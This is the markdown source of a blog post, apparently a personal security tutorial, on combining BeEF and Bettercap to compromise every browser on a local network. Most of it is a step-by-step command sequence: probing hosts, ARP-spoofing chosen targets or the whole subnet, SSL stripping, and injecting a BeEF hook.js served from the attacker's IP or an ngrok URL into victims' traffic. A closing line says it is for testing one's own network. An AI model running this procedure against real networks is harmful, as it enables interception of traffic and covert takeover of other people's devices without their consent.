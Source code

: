 ```yaml
---
title: Beef + Bettercap, Hook The Whole Network
publishedOn: January 31st, 2023
slug: beef-bettercap
excerpt: Beef and Bettercap can be used together to automate network hooking. Beef is an open-source framework for penetration testing and security assessments, used to run and manage a collection of browser exploitation tools. Bettercap is a Swiss army knife for network attacks and monitoring. By combining Beef and Bettercap, a hacker can create a custom tool to automate the process of hooking, or compromising, every device on a network.
readingTime: 5 mins
---
```


# Browser Exploitation Framework + Bettercap
## Hook the whole network

Beef and Bettercap can be used together to automate network hooking. Beef is an open-source framework for penetration testing and security assessments, used to run and manage a collection of browser exploitation tools. Bettercap is a Swiss army knife for network attacks and monitoring. By combining Beef and Bettercap, a hacker can create a custom tool to automate the process of hooking, or compromising, every device on a network.

## Main Concepts

- ARP Spoofing: A technique used to intercept data packets by deceiving the target device into believing that the attacker's device is the default gateway.
- SSL Stripping: A method used to downgrade HTTPS connections to unencrypted HTTP, allowing an attacker to see and modify the data being transmitted.
- Network Communication: Understanding how data is transmitted between devices on a network and the different protocols used (such as HTTP, HTTPS, DNS, etc.).
- Man-in-the-Middle Attacks: Understanding the concept of intercepting and manipulating network communication between two parties without their knowledge.
- Browser Exploitation: Understanding how to exploit vulnerabilities in web browsers to gain control over the target device.


In the world of cybersecurity, network hooking is a technique used to compromise devices on a network to assess its security or perform malicious attacks. Beef and Bettercap are two powerful tools that can be used together to automate this process. In this article, we'll take a closer look at how to use these tools to hook a network.

## **What is Beef?**
Beef is an open-source framework for penetration testing and security assessments. It runs a collection of browser exploitation tools and provides a web-based interface to manage these tools. With Beef, a hacker can easily find and exploit vulnerabilities in web browsers to compromise target devices.

## **What is Bettercap?**
Bettercap is a Swiss army knife for network attacks and monitoring. It can perform various functions such as ARP spoofing, DNS spoofing, and SSL stripping. By using Bettercap, a hacker can manipulate network traffic and launch man-in-the-middle attacks to compromise target devices.

## **Using Beef and Bettercap Together**
In this demo, I am going to assume you have a working version of beef-xss and Bettercap already.

Start Beef with....
    `sudo beef-xss`

Start Bettercap, 

`sudo bettercap en0`

Now we need to turn on net.probe to find devices on our network
so from inside Bettercap...
`net.probe on`

To see your network...

`net.show`

We need to set some clients to arp spoof, or you can choose the whole network. 

`set arp.spoof.targets <ip>,<ip>, <ip> OR *`


Let's see what's needed to move forward

`help http.proxy`

Start up Beef

`sudo beef-xss`

Now you should see both beefs web-ui url and a hook url. Check your IP address as well, or use ngrok to expose your local host. 

Start the arp spoof we set earlier..

`arp.spoof on`

We need to configure ssl strip

`set http.proxy.sslstrip true`

Put the beef hook on the proxy

`set http.proxy.injectjs <insert your beef hook>`

`set http.proxy.injectjs <http://My IP or Ngrok url/hook.js>`

Make sure to either add your external or start ngrok to expose you're localhost beef server.

Now make sure to turn on http.proxy now that settings are configured....

Also make sure everything else is started. Net.probe on, net.sniff on, net.recon on

`http.proxy on`

### **Now we are setup to hook everyone on the network automatically without them clicking anything at all.**

# *Always use responsibly, this is to be tested on your own network*

## Brendan Frisby
[Github](https://github.com/bfrisbyh92)




